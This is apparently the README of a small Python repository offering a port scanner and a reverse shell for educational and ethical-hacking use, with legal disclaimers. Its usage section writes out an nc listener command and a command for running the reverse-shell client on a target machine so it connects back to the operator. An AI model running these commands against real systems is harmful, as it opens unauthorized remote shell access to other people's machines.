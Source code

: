 # python-network-tools
Welcome to this repository! Here you can find simple network tools written without any external libraries. These tools are designed to be lightweight and serve as practical examples for ethical hacking or educational purposes. 

---

## **Programs Included**

1. **Port Scanner**  
   A straightforward port scanner capable of identifying open ports on a target machine. It's implemented entirely without the use of external libraries, making it portable and easy to understand for beginners.

2. **Reverse Shell**  
   A minimalistic reverse shell implementation, also built without external dependencies. It can be used to simulate remote access in controlled environments or as part of ethical hacking exercises.

---

## **Key Features**

- No external libraries required.
- Lightweight and easy to understand.
- Useful for **educational purposes** and for learning the basics of networking and hacking.

---

## **Important Disclaimer**

These tools are developed for **educational purposes only**. Unauthorized use on systems that you do not own or do not have explicit permission to test is illegal.  
The creators of this repository do not take responsibility for any misuse of the tools. Always ensure that you are working in a legal and ethical manner when performing testing or demonstrations.

---

## **How to Use**

### Port Scanner
```bash
python port_scanner.py <target_ip>
```

### Reverse Shell
**Bind the reverse shell server on your machine:**
```bash
nc -lnvp <listener_port>
```

**Run the reverse sheel on your target machine:**
```bash
python reverse_shell_client.py <your_machine_ip> <listener_port>
```

---

## **Use Cases**

- **Educational Purposes**: Learn the basics of networking, open ports, and remote shells.
- **Ethical Hacking**: Test your own systems or systems where you have **explicit permission** to perform penetration testing.
- **Codeless Understanding**: Study the fundamental implementation of some common hacking techniques without relying on bulky dependencies.

---

## **Legal Warning**

Unauthorized scanning of ports or connecting to systems without permission is considered illegal in most jurisdictions. Use these tools responsibly, and **always ensure you have explicit permission** before testing any system. These tools are meant for educational purposes and ethical hacking within controlled environments.

---

## **Future Improvements**

- Adding more advanced scanning techniques (e.g., multi-threading).
- Improving reverse shell security features.
- Introducing more detailed logging functionality.
